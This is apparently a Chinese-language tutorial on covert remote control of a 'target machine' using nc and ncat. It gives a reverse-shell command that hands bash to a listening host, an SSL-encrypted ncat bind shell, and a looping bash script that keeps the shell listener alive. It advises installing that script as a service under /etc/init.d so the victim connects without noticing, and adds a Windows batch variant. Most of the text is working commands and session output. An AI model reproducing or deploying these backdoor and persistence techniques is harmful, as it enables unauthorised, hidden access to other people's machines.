

# 远程操控

## 思路

这里要用到的是nc与ncat，但无论是nc还是ncat，操控的原理都是主动连接我们主机并交出自己的bash或cmd，实现了一个反向的过程，那么如何不知不觉让靶机主动连接？linux下把命令封装成shell脚本放在/etc/init.d目录下，然后当成服务在后台运行就行了。

## nc

> 缺点：没有用密钥加密，明码传输，如果被其他人抓包嗅探到，那么我们的靶机就被抢占了

**靶机**
```bash
┌──(root💀cyber)-[~]
└─# nc -nv 172.20.10.12 668 -c bash                1 ⨯
(UNKNOWN) [172.20.10.12] 668 (?) open
```

**我们的主机**

``` bash
┌──(root💀cyber)-[~]
└─# nc -lp 668 
ls
公共
模板
视频
图片
文档
下载
音乐
桌面
cd /etc        
ls
adduser.conf
adjtime
alsa
```

## ncat

**靶机**

``` bash
┌──(root💀cyber)-[~]
└─# ncat -c bash --allow 172.20.10.12 -vnl 688 --ssl                                                  130 ⨯
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: EAC7 7287 6FB9 2485 C621 8BFC 31AD 7EA8 D053 7EA5
Ncat: Listening on :::688
Ncat: Listening on 0.0.0.0:688
Ncat: Connection from 172.20.10.12.
Ncat: Connection from 172.20.10.12:39432.
```

**我们的主机**

``` bash
┌──(root💀cyber)-[~]
└─# ncat  -nv 172.20.10.12 688 --ssl
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Subject: CN=localhost
Ncat: Issuer: CN=localhost
Ncat: SHA-1 fingerprint: EAC7 7287 6FB9 2485 C621 8BFC 31AD 7EA8 D053 7EA5
Ncat: Certificate verification failed (self signed certificate).
Ncat: SSL connection to 172.20.10.12:688.
Ncat: SHA-1 fingerprint: EAC7 7287 6FB9 2485 C621 8BFC 31AD 7EA8 D053 7EA5
ls
公共
模板
视频
图片
文档
下载
音乐
桌面
```

## 封装指令

> 解决断开连接后再次端口还在监听

**shell脚本**

``` shell
#!/bin/bash
echo "开始启动远程连接脚本"
our_ip="172.20.10.12"
our_port=688
count=0
for((i=0;i<999;i++));do       
let count++
echo "第"+$count+"次请求连接" 
{ 
ncat -c bash --allow $our_ip -vnl $our_port --ssl 
}&
wait $!
echo "第"+$count+"次断开连接"
done
echo "远程连接脚本执行抛出异常"
```

**靶机**

> 注意：当端口被占用，也就是还有窗口在连接，因为这里的连接只能一对一的，所以wait失效

*端口被占用在日志打印的结果:*

``` log
Ncat: bind to :::688: Address already in use. QUITTING.
```

*杀死688被占用的进程:*

``` bash
┌──(root💀cyber)-[~/桌面]
└─# lsof -i:688                              
COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
ncat    2667 root    3u  IPv6  37400      0t0  TCP *:688 (LISTEN)
ncat    2667 root    4u  IPv4  37401      0t0  TCP *:688 (LISTEN)
                                                                                                            
┌──(root💀cyber)-[~/桌面]
└─# kill 2667
```

*后台执行脚本输出日志*
*查看进程成功稳定运行*

``` bash
┌──(root💀cyber)-[~/桌面]
└─# nohup ./ncat_rpc.sh > ncat_rpc.log 2>&1 &

[1] 3213
                                                                                                            
┌──(root💀cyber)-[~/桌面]
└─# ps -anx | grep ncat_rpc                                                                             1 ⚙

   3025 ?        Sl     0:12 mousepad /root/桌面/ncat_rpc.log
   3213 pts/0    SN     0:00 /bin/bash ./ncat_rpc.sh
   3215 pts/0    SN     0:00 /bin/bash ./ncat_rpc.sh
   3221 pts/0    S+     0:00 grep --color=auto ncat_rpc
```

**我们主机**

*成功稳定多次连接*

``` bash
┌──(root💀cyber)-[~]
└─# ncat  -nv 172.20.10.12 688 --ssl         
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Subject: CN=localhost
Ncat: Issuer: CN=localhost
Ncat: SHA-1 fingerprint: 0789 82E1 E1E1 0177 8D60 2A60 6407 FF13 59B4 9659
Ncat: Certificate verification failed (self signed certificate).
Ncat: SSL connection to 172.20.10.12:688.
Ncat: SHA-1 fingerprint: 0789 82E1 E1E1 0177 8D60 2A60 6407 FF13 59B4 9659
cd /root/桌面
ls
chrome-gohfgnegibilhdphfidpmnnjpgnfmonl-Default.desktop
firefox-esr.desktop
google-chrome.desktop
ncat_rpc.log
ncat_rpc.sh
qq.desktop
wps-office-prometheus.desktop
^C
                                                                                                            
┌──(root💀cyber)-[~]
└─# ncat  -nv 172.20.10.12 688 --ssl                                                                  130 ⨯
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Subject: CN=localhost
Ncat: Issuer: CN=localhost
Ncat: SHA-1 fingerprint: 1A23 A17F C797 AE0A A3CF 97B4 BDC6 0DE2 746B D29D
Ncat: Certificate verification failed (self signed certificate).
Ncat: SSL connection to 172.20.10.12:688.
Ncat: SHA-1 fingerprint: 1A23 A17F C797 AE0A A3CF 97B4 BDC6 0DE2 746B D29D
^C
                                                                                                            
┌──(root💀cyber)-[~]
└─# ncat  -nv 172.20.10.12 688 --ssl                                                                  130 ⨯
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Subject: CN=localhost
Ncat: Issuer: CN=localhost
Ncat: SHA-1 fingerprint: 5BEC 3551 EC0B 4E29 595B 4981 1F66 3FB8 36EB 9080
Ncat: Certificate verification failed (self signed certificate).
Ncat: SSL connection to 172.20.10.12:688.
Ncat: SHA-1 fingerprint: 5BEC 3551 EC0B 4E29 595B 4981 1F66 3FB8 36EB 9080
^C

```

日志

``` log
nohup: 忽略输入
开始启动远程连接脚本
第+1+次请求连接
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 0789 82E1 E1E1 0177 8D60 2A60 6407 FF13 59B4 9659
Ncat: Listening on :::688
Ncat: Listening on 0.0.0.0:688
Ncat: Connection from 172.20.10.12.
Ncat: Connection from 172.20.10.12:51044.
第+1+次断开连接
第+2+次请求连接
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 1A23 A17F C797 AE0A A3CF 97B4 BDC6 0DE2 746B D29D
Ncat: Listening on :::688
Ncat: Listening on 0.0.0.0:688
Ncat: Connection from 172.20.10.12.
Ncat: Connection from 172.20.10.12:51046.
第+2+次断开连接
第+3+次请求连接
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 5BEC 3551 EC0B 4E29 595B 4981 1F66 3FB8 36EB 9080
Ncat: Listening on :::688
Ncat: Listening on 0.0.0.0:688
Ncat: Connection from 172.20.10.12.
Ncat: Connection from 172.20.10.12:51048.
第+3+次断开连接
```



## windows

- 已经封装好了的批处理文件

``` cmd
C:\Windows>nact_rpc.bat

C:\Users\Administrator>netstat -aon|findstr "688"
  TCP    0.0.0.0:688            0.0.0.0:0              LISTENING       13520

C:\Users\Administrator>taskkill /pid 13520 -t -f
成功: 已终止 PID 13520 (属于 PID 14160 子进程)的进程。
```
